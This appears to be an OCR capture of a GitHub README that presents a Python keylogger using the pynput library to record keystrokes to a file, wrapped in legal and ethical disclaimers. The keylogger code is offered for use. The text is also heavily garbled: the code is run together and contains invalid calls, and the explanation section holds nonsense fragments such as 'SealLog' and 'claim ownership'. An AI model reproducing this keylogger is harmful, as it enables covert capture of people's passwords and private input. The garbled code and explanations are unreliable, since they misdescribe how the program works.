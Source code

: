 
Navigation M
/PRODIGY_CS_04

CodeIssuesPull requests

Files

 main

BreadcrumbsPRODIGY_CS_04

/README.md

Latest commit

Hipcomdu

7 months ago

History

90 lines (46 loc) · 3.2 KB

File metadata and controls

Preview

Code

Blame

PRODIGY_CS_04

It is important to note that the use and development of keyloggers without a subject's permission are illegal. Keyloggers can be toxic as they enable surveillance without permission or data theft. If you really need to develop a keylogger, for instance, when engaging in cybercrime awareness or trying out security risks; always make sure that you have got the right authority and permission from all relevant parties.

That in mind, I can give you an educational example of a keylogger with Python. This code is sponge licensed: all copy of this let we be it for educational intention only and gains best assurance practices.Domains.

Keylogger Example in Python

Here is an example using the pynput library to create a simple keylogger script that writes keystrokes into a file. This script will monkey patch key presses to be saved in a 'keylog. txt.

Prerequisites

First, you will have to install the pynput library. You can install it using pip:

pip install pynput 

Keylogger Code

from pynput import keyboard import logging # Log settings configuration logging. basicConfig(filename="keylog. txt", level=logging. Then system will print using below format DEBUG,format = "%(asctime)s: %(message)s" def on_press(key): try: # Log the key pressed logging. info(f"Key pressed: {key. char}") except AttributeError: # Process special keys (e.g. space, return) logging. print(f"Special key pressed: {key}") def on_release(key): if key == keyboard. Key. esc: # Stop listener return False # Start the keylogger with keyboard. with Listener(on_press=on_press, on_release=on_release) as listener: listener.join()

Explanation

Logging Setup:

Keylogs are written to a file, keylog.log with the use of Modules such as : SealLog from Logging txt`.

`logging. Step #4: Configure basicConfig, logging messages in a timestamp to the file

Key Press Handling:

Log the character of a key pressed within less than 5 secondsdef on_press(key): log_txt = str(log_name) try: logging.info(str(key.char)) forest[log_txt].append('|' +str(time.time()) + '|' 'char|') except AttributeError : pass… If it is a specific key (e.g. space, enter), get the name of the web site to claim ownership in return

The on_release function verifies if the key pressed is a an press of the esc. If it is, the keylogger stops working.

Listener:keyboard. Listener : To listen for key presses and releases. It is running in a blocking loop until you press 'esc'

3 Ethical and legal considerations

Permission: Never run any keylogger without the explicit permission of all end users.

Reason: Keylogger for educational purposes, proof of concept demonstrations or security testing in a controlled environment.

Principle ● Privacy — respecting privacy, and legal boundaries. Violates privacy laws by logging keystrokes Without Permission

Conclusion

Educational Purposes: We provide this command line example only to explore how keystroke logging works. Please always keep in mind the ethical implications and legalities of such tools before you actually implement them. But it is important for security and ethical programming practice to consider privacy, safety and especially legal conformity.

